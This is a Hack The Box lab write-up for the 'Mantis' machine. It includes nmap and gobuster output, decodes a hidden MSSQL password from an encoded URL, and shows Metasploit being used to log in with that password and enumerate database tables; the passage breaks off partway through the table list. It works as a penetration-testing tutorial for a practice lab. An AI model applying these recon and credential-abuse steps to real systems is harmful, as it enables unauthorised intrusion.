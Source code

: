 ```yaml
---
layout: post
title: Mantis(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.52

**Nmap**:-

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A --top-ports 10000 10.10.10.52</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-24 03:38 EST
<br>Nmap scan report for 10.10.10.52
<br>Host is up (0.16s latency).
<br>Not shown: 8270 closed ports
<br>PORT      STATE SERVICE      VERSION
<br><font color="BB69EC">53/tcp</font>    open  <font color="53E100">domain</font>       Microsoft DNS 6.1.7601
<br>| dns-nsid: 
<br>|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
<br><font color="BB69EC">88/tcp</font>    open  <font color="53E100">kerberos-sec</font> Microsoft Windows Kerberos (server time: 2018-02-24 09:03:52Z)
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">139/tcp</font>   open  <font color="53E100">netbios-ssn</font>  Microsoft Windows netbios-ssn
<br><font color="BB69EC">389/tcp</font>   open  <font color="53E100">ldap</font>         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<br><font color="BB69EC">445/tcp</font>   open  <font color="53E100">microsoft-ds</font> Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
<br><font color="BB69EC">464/tcp</font>   open  <font color="53E100">kpasswd5?</font>
<br><font color="BB69EC">593/tcp</font>  open  <font color="53E100">ncacn_http</font>   Microsoft Windows RPC over HTTP 1.0
<br><font color="BB69EC">636/tcp</font>   open  <font color="53E100">tcpwrapped</font>
<br><font color="BB69EC">1337/tcp</font>  open  <font color="53E100">http</font>         Microsoft IIS httpd 7.5
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: IIS7
<br><font color="BB69EC">1433/tcp</font>  open  <font color="53E100">ms-sql-s</font>     Microsoft SQL Server 2014 12.00.2000.00; RTM
<br>| ms-sql-ntlm-info: 
<br>|   Target_Name: HTB
<br>|   NetBIOS_Domain_Name: HTB
<br>|   NetBIOS_Computer_Name: <font color="53E100">MANTIS</font>
<br>|   DNS_Domain_Name: <font color="53E100">htb.local</font>
<br>|   DNS_Computer_Name: <font color="53E100">mantis.htb.local</font>
<br>|   DNS_Tree_Name: htb.local
<br>|_  Product_Version: 6.1.7601
<br>| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
<br>| Not valid before: 2018-02-20T21:58:06
<br>|_Not valid after:  2048-02-20T21:58:06
<br>|_ssl-date: 2018-02-24T09:05:13+00:00; -2s from scanner time.
<br><font color="BB69EC">3268/tcp</font>  open  <font color="53E100">ldap</font>         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<br><font color="BB69EC">3269/tcp</font>  open  <font color="53E100">tcpwrapped</font>
<br><font color="BB69EC">5722/tcp</font>  open  <font color="53E100">msrpc</font>       Microsoft Windows RPC
<br><font color="BB69EC">8080/tcp</font>  open  <font color="53E100">http</font>         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
<br>|_http-open-proxy: Proxy might be redirecting requests
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Tossed Salad - Blog
<br><font color="BB69EC">9389/tcp</font>  open  <font color="53E100">mc-nmf</font>       .NET Message Framing
<br><font color="BB69EC">47001/tcp</font> open  <font color="53E100">http</font>         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
<br>|_http-server-header: Microsoft-HTTPAPI/2.0
<br>|_http-title: Not Found
<br><font color="BB69EC">49152/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49153/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49155/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49157/tcp</font> open  <font color="53E100">ncacn_http</font>   Microsoft Windows RPC over HTTP 1.0
<br><font color="BB69EC">49158/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49164/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49166/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49168/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
<br>TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=2/24%OT=53%CT=1%CU=41156%PV=Y%DS=2%DC=T%G=Y%TM=5A912B4
<br>OS:3%P=i686-pc-linux-gnu)SEQ(SP=107%GCD=2%ISR=10A%TI=I%CI=I%TS=7)SEQ(SP=107
<br>OS:%GCD=1%ISR=10A%TI=I%TS=7)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT
<br>OS:11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000
<br>OS:%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=N%Q=)T
<br>OS:1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%
<br>OS:O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80
<br>OS:%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A
<br>OS:=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R
<br>OS:UCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)</p>

<p>Network Distance: 2 hops
<br>Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p> Host script results:
<br>|_clock-skew: mean: -2s, deviation: 0s, median: -2s
<br>| ms-sql-info: 
<br>|   10.10.10.52:1433: 
<br>|     Version: 
<br>|       name: Microsoft SQL Server 2014 RTM
<br>|       number: 12.00.2000.00
<br>|       Product: Microsoft SQL Server 2014
<br>|       Service pack level: RTM
<br>|       Post-SP patches applied: false
<br>|_    TCP port: 1433
<br>| smb-os-discovery: 
<br>|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
<br>|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
<br>|   Computer name: mantis
<br>|   NetBIOS computer name: MANTIS\x00
<br>|   Domain name: htb.local
<br>|   Forest name: htb.local
<br>|   FQDN: mantis.htb.local
<br>|_  System time: 2018-02-24T04:05:16-05:00
<br>| smb-security-mode: 
<br>|   account_used:
<br>|   authentication_level: user
<br>|   challenge_response: supported
<br>|_  message_signing: required
<br>|_smbv2-enabled: Server supports SMBv2 protocol </p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   158.80 ms 10.10.14.1
<br>2   159.05 ms 10.10.10.52</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 1719.57 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

**Web :-**

**Port : 8080**
![1](https://teckk2.github.io/assets/images/Mantis/1.png)
![2](https://teckk2.github.io/assets/images/Mantis/2.png)
<br>On port 8080 Orchard CMS is running

**Port : 1337**
**Gobuster**

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.52:1337/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.52:1337/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.52:1337/secure_notes (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

![3](https://teckk2.github.io/assets/images/Mantis/3.png)
<br>Open dev-notes and you will see there is a hint for Orchid CMS with username **admin**
![4](https://teckk2.github.io/assets/images/Mantis/4.png)
<br>If you look at the URL carefully you will notice it's a base64
<br>[http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt](http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt)
<br>**NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx**
![5](https://teckk2.github.io/assets/images/Mantis/5.png)

<br>The output is in **Hex** which we can decrypt using an [online tool](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

![6](https://teckk2.github.io/assets/images/Mantis/6.png)
<br>**Username : admin**
<br>**Password: m$$ql_S@_P@ssW0rd!**
<br>Now we can proceed further to enumerate the database as we have the password.
<br>I am not going to show every steps of the enumeration, but only the main parts of it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use auxiliary/admin/mssql/mssql_sql
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set username admin
<br>username => admin
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set password m$$ql_S@_P@ssW0rd!
<br>password => m$$ql_S@_P@ssW0rd!
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set RHOST 10.10.10.52
<br>RHOST => 10.10.10.52
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set SQL USE orcharddb; SELECT * FROM INFORTION_SCHEMA.TABLES
<br>SQL => USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.TABLES
<br>msf auxiliary(<font color="red">mssql_sql</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.TABLES
<br><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - Row Count: 62 (Status: 16 Command: 193)</p>



<p>&nbsp;TABLE_CATALOG&nbsp;&nbsp;TABLE_SCHEMA&nbsp;&nbsp;TABLE_NAME&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TABLE_TYPE
<br>&nbsp;-------------&nbsp;&nbsp;------------&nbsp;&nbsp;----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----------
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_RecentBlogPostsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_BlogArchivesPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_TransitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_WorkflowRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_WorkflowDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_AwaitingActivityRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_ActivityRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_TagsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_DataMigrationRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_TagRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_ContentTagRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentFieldDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_DistributedLockRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentPartDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentPartFieldDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentTypeDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentTypePartDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellDescriptorRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellFeatureRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellFeatureStateRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellParameterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellStateRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentItemRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentItemVersionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentTypeRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_CultureRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_BodyPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_CommonPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_CommonPartVersionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_IdentityPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainerPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
